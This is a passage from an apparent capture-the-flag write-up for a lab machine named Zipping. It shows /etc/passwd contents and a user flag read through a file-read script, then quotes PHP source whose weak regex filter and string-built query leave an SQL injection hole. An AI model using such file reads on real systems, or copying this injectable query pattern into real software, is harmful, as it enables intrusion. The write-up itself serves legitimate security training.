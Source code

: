 ```bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

I used it to read the user flag.

```bash
$ ./getFile.py /home/rektsu/user.txt
  adding: link.pdf (stored 0%)
REDACTED
```

### SQL Injection

I used the script to extract the source code of the site.

The product page had a big hint of the next step.

```php
<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>

<?=template_header('Zipping | Product')?>

<div class="product content-wrapper">
    <img src="assets/imgs/<?=$product['img']?>" width="500" height="500" alt="<?=$product['name']?>">

...
```

